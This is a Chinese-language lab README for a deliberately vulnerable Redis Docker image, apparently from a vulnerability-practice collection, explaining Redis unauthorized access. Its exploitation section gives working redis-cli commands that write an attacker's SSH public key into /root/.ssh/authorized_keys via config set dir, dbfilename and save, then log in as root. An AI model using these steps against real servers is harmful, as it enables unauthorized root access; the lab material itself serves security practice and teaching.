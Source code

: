 Redis 未授权访问漏洞
---

### 漏洞信息

> antirez :
> 
>  From time to time I get security reports about Redis. It’s good to get reports, but it’s odd that what I get is usually about things like Lua sandbox escaping, insecure temporary file creation, and similar issues, in a software which is designed (as we explain in our security page here http://redis.io/topics/security) to be totally insecure if exposed to the outside world.
> 
>我时不时的会收到有关Redis的安全报告, 这些报告多是有关 Lua沙盒溢出或是不安全的写文件这种千篇一律的问题, 但是这对一个被设计成一旦暴露在外部网络中就毫无安全性可言的软件来说简直是太奇怪了, 因为他们本来就不该暴露在外部网络之中 : (
>

如果将 Redis 绑定在 0.0.0.0:6379，会将Redis服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问Redis以及读取Redis的数据。

攻击者在未授权访问Redis的情况下可以利用Redis的相关方法，如果运行 redis 的用户是 root 用户，攻击者可以成功将自己的公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以直接登录目标服务器。

### 镜像信息

类型 | 值
:-:|:-:|:-:
redis 端口 | 6379
redis 密码 | 无
sshd 端口 | 22
ssh root 密码 | 未设置(自行通过漏洞登录)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:r_redis_1
 ```

2. 启动环境

 ```
$ docker run --name=redisvul -d -p 22:22 -p 6379:6379 medicean/vulapps:r_redis_1
 ```
 > `-p 22:22` 前面的 22 代表物理机的端口，可随意指定。
 >

3. 检测是否启动

 使用 redis-cli 连接 redis 显示成功则代表服务已经启动


### 利用步骤

1. 在攻击方生成一对 ssh key (如果已经生成过则可跳过此步骤)

 ```
  $ ssh-keygen -t rsa
 ```
 
 默认情况下，生成后在用户的家目录下的 .ssh 目录下
 
2. 将生成的公钥的值写入目标服务器

 ```
 $ (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /tmp/foo.txt
 $ cat /tmp/foo.txt | redis-cli -h 192.168.1.100 -p 6379 -x set crackit
 ```
 
 > 加上 `\n\n` 是为了不破坏 ssh public key
 > 
 > crackit 是设置的 key，可随意指定

3. 连接目标

 ```
 $ redis-cli -h 192.168.1.100 -p 6379
192.168.1.100:6379> config set dir /root/.ssh/
OK
192.168.1.100:6379> config get dir
1) "dir"
2) "/root/.ssh"
192.168.1.100:6379> config set dbfilename "authorized_keys"
OK
192.168.1.100:6379> save
OK
 ```
 
 将目录设置为 /root/.ssh/ 目录后，再将备份文件名设置为 `authorized_keys`，通过 save 指令即可写入文件。

4. 通过 ssh 连接目标

 ```
 $ ssh root@192.168.1.100 -i ~/.ssh/id_rsa
 ```
 > 默认会使用 `id_rsa` 如果改过文件名则可以用 -i 参数来指定。

### 推荐阅读

* [A few things about Redis security -- antirez](http://antirez.com/news/96)
* [Trying to hack Redis via HTTP requests](https://www.secpulse.com/archives/5366.html)
* [Redis 未授权访问检测](http://www.bugscan.net/source/plugin/2360/template/)
* [Redis 未授权访问缺陷可轻易导致系统被黑](https://www.seebug.org/vuldb/ssvid-89715)

### 扩展阅读

> ssh 不仅支持密码登录，还支持证书登录

* [authorized_keys 文件说明](http://man.he.net/man5/authorized_keys)